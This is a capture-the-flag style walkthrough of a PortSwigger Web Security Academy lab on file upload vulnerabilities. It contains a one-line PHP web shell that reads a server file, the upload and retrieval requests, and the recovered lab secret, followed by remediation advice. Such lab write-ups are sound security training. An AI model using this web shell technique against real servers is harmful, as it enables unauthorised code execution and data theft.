

### Remote Code Execution via Web Shell Upload

**Category:** File Upload Vulnerabilities                                                  
**Difficulty:** Apprentice                                               
**Status:** ✅ Solved


### Summary

The lab's avatar upload feature does not properly validate uploaded files, and the uploads directory is configured
to execute PHP. This allows an attacker to upload a PHP web shell and invoke it directly to execute code on the server.

In this lab, the uploaded script is used to read `/home/carlos/secret`.


### Objective

Exploit the unrestricted file upload on `/my-account/avatar` to read the contents of `/home/carlos/secret`.


## Steps

### 1. Locate the upload function

Logged in as `wiener`, the **My Account** page has an avatar upload form.


### 2. Create the malicious PHP file

Created `exploit.php` locally with a PHP script that reads Carlos's secret file:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```




### 3. Upload the PHP file

Selected `exploit.php` in the avatar upload form and submitted it.

The server accepted the file and confirmed:

```text
The file avatars/exploit.php has been uploaded.
```


### 4. Request the uploaded file

Avatar files are normally accessed through:

```http
POST /files/avatar HTTP/1.1
```

Sent the request to **Burp Repeater** and changed the path to:

```http
GET /files/avatars/exploit.php HTTP/1.1
```


Because the server executes PHP files in the avatar directory, the PHP script executes and returns the contents
of `/home/carlos/secret`.


### 5. Submit the secret

Copied the secret from the response and submitted it through **Submit solution**.

```GpPiGUjUdxlbIGeJjhqyMfzFLw4nP1gI```


The lab was successfully solved.


### Root Cause

- The application does not properly validate uploaded file types or contents.
- PHP files can be uploaded through the avatar functionality.
- The `/files/avatars/` directory allows PHP execution.


### Remediation

- Use an allow-list of permitted file types.
- Validate the actual file contents instead of trusting the filename or `Content-Type`.
- Store uploaded files outside the webroot.
- Disable script execution in upload directories.
- Generate random server-side filenames for uploaded files.


### Tools Used

- Burp Suite — Proxy & Repeater
- PortSwigger Web Security Academy
- PHP
